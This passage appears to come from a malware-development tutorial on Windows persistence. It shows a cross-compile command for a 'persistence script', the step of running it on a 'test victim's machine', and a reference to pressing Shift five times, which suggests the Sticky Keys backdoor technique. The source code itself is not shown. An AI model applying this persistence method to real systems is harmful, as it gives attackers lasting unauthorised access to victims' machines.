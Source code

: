 And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![malware](./images/128/2024-07-14_12-54.png){width="80%"}      

Then, run it on test victim's machine (Windows 11 x64):    

```powershell
.\pers.exe
```

![malware](./images/128/2024-07-14_13-00.png){width="80%"}      

As you can see, symlink successfully created.    

Finally, pressing Shift key 5 times:     
